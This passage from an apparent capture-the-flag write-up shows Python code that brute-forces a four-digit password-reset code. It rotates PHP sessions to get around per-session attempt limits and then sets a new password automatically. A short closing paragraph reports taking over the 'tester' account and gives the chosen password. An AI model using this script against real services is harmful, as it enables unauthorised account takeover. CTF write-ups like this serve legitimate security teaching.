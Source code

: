 ```python

def finalize_reset(session):
    """
    Submit the new password form using the current session.
    """
    r = session.post(RESET_ENDPOINT, data={
        'new_password': NEW_PASSWORD,
        'confirm_password': NEW_PASSWORD
    })
    if 'success' in r.text.lower():
        print("🎉 Password reset complete!")
    else:
        print("⚠  Reset may have failed, check the response:")
        print(r.text)

def brute_force():
    """Brute‑force the 4‑digit OTP by rotating sessions every MAX_ATTEMPTS."""
    code_iter = (f"{i:04d}" for i in range(10000))
    while True:
        session = new_session()
        ttl = init_reset(session)
        sessid = session.cookies.get('PHPSESSID')
        print(f"[🔑] Using PHPSESSID: {sessid}")
        for attempt in range(1, MAX_ATTEMPTS_PER_SESSION + 1):
            try:
                otp = next(code_iter)
            except StopIteration:
                print("[!] Exhausted all codes without success.")
                return
            r = session.post(RESET_ENDPOINT, data={
                'recovery_code': otp,
                's': ttl
            })
            if 'Invalid or expired recovery code' not in r.text:
                print(f"\n✅ Found OTP = {otp}")
                print(f"🔑 PHPSESSID: {sessid}")
                print(f"⏱ Hidden TTL (s): {ttl}\n")
                print("---- FULL HTTP RESPONSE ----")
                print(f"{r.request.method} {r.request.url} -> {r.status_code}")
                for k, v in r.headers.items():
                    print(f"{k}: {v}")
                print("\n" + r.text)
                # Automatically finalize the password reset
                finalize_reset(session)
                return
            print(f"[-] Tried {otp} ({attempt}/{MAX_ATTEMPTS_PER_SESSION})")

if __name__ == '__main__':
    brute_force()
```
After a few minutes we have succesfully reset tester's password and we can get our first flag from the dashboard! To do this just login with tester's email and, if you used my script, "MyN3w$tr0ngP@ss!". If this snippet looks a bit confusing to you, I have included a section at the bottom of this writeup that breaks this code down.
